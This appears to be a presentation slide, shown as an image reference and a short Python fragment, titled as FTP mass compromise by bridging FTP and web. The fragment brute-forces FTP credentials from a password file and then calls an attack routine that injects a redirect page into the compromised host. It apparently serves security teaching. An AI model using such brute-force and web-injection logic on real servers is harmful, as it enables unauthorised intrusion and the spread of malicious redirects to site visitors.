

# FTP mass compromise by bridging FTP and WEB Code
elif pass_file:
            (user, passwd) = brute_login(tgt_host, pass_file)
            if passwd:
                print(f'[+] Using Brute-forced Creds {user}/{passwd} to '
                      f'attack')
                attack(user, passwd, tgt_host, redirect_html)